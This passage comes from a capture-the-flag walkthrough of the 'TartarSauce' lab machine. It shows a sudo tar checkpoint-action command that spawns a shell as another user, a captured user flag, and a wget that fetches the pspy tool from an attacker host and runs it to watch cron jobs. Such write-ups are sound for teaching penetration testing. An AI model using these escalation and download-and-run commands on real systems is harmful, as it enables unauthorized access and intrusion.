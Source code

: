 According to GTFObins found here
> https://gtfobins.github.io/gtfobins/tar/

we will be able to escalate privileges to _onuma_  user via tar
> sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

in our case via
```
www-data@TartarSauce:/var/www/html$ sudo -u onuma /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

/bin/tar: Removing leading `/' from member names
$ id
uid=1000(onuma) gid=1000(onuma) groups=1000(onuma),24(cdrom),30(dip),46(plugdev)
$
```

and user flag is captured
```
$ cd /home/onuma
$ ls -la
total 40
drwxrw---- 5 onuma onuma 4096 Feb 21  2018 .
drwxr-xr-x 3 root  root  4096 Feb  9  2018 ..
lrwxrwxrwx 1 root  root     9 Feb 17  2018 .bash_history -> /dev/null
-rwxrw---- 1 onuma onuma  220 Feb  9  2018 .bash_logout
-rwxrw---- 1 onuma onuma 3871 Feb 15  2018 .bashrc
drwxrw---- 2 onuma onuma 4096 Feb  9  2018 .cache
-rwxrw---- 1 onuma onuma   52 Feb 17  2018 .mysql_history
drwxrw---- 2 onuma onuma 4096 Feb 17  2018 .nano
-rwxrw---- 1 onuma onuma  655 Feb  9  2018 .profile
drwxrw---- 2 onuma onuma 4096 Feb 15  2018 .ssh
-rwxrw---- 1 onuma onuma    0 Feb  9  2018 .sudo_as_admin_successful
lrwxrwxrwx 1 root  root     9 Feb 17  2018 shadow_bkp -> /dev/null
-r-------- 1 onuma onuma   33 Feb  9  2018 user.txt
$ cat user.txt
b2d6ec454.....
```

### _root_ file system read and root.txt

Cronjob enumeration with _pspy_. 
```
onuma@TartarSauce:/tmp$ wget 10.10.14.45/pspy32
--2021-11-20 10:16:51--  http://10.10.14.45/pspy32
Connecting to 10.10.14.45:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2656352 (2.5M) [application/octet-stream]
Saving to: 'pspy32'

pspy32              100%[===================>]   2.53M  2.22MB/s    in 1.1s

2021-11-20 10:16:52 (2.22 MB/s) - 'pspy32' saved [2656352/2656352]
onuma@TartarSauce:/tmp$ chmod +x pspy32
onuma@TartarSauce:/tmp$ ./pspy32
pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░
```